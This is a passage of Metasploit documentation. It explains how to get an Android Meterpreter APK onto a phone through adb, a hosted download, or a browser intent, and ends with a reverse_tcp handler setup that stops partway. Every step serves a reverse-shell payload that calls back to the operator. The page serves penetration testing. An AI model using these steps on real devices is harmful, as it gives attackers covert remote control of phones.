 meterpreter > 
```

**Uploading APK to a real Android device using install_msf_apk.sh**

On the Android device, make sure to enable Developer Options. To do this:

1. Go to Settings -> About -> Software Information
2. Tap on the Build Number section a couple of times. It should unlock Developer Options.
3. Go back to the Settings page, you should see Developer Options.

Under Developer Options, make sure to:

* Enable USB debugging
* Disable Verify apps via USB
* Open a terminal, and type: ```adb devices```. On your Android device, you should see a prompt
  asking you to allow the computer for debugging, click OK on that.
* Do: ```adb devices``` again, adb should now have access.

Run the installer script like this from a terminal:

```
$ tools/exploit/install_msf_apk.sh /tmp/android.apk
```

And you should get a session.



**Uploading APK from a Web Server**

One way to upload an APK to Android without adb is by hosting it from a web server. To do this,
you must make sure to allow to trust "Unknown sources". The way to do this varies, but normally
it's something like this: Settings -> Security -> Check "Unknown Sources"

Once you have that changed, you'll need to:

1. Generate the APK payload.
2. Start a web server from the directory where the payload is: ```ruby -run -e httpd . -p 8181```
3. On your Android device, open a browser, and download the APK.
4. You should be able to find the APK from the Downloads folder, install it.
5. After installation, you will have to manually execute it.

**Reconnect Android Meterpreter from the Browser Remotely**

When you have the APK payload installed on your Android device, another trick to reconnect it is to
launch an intent from a browser. An intent is simply a term in Android development that means "an operation to be performed."

Here's how you do this:

1. In msfconsole, start a multi/handler for android/meterpreter/reverse_tcp as a background job.
2. Do: ```auxiliary/server/android_browsable_msf_launch```.
3. Set the URIPATh if needed.
4. Do: ```run```. At this point, the web server should be up.
5. On your Android device, open the native web browser, and go the URL generated by the auxiliary
   module.
6. The Android handler should get a session like the following demo:

```
msf > use exploit/multi/handler 
msf exploit(handler) > set PAYLOAD android/meterpreter/reverse_tcp
PAYLOAD => android/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.199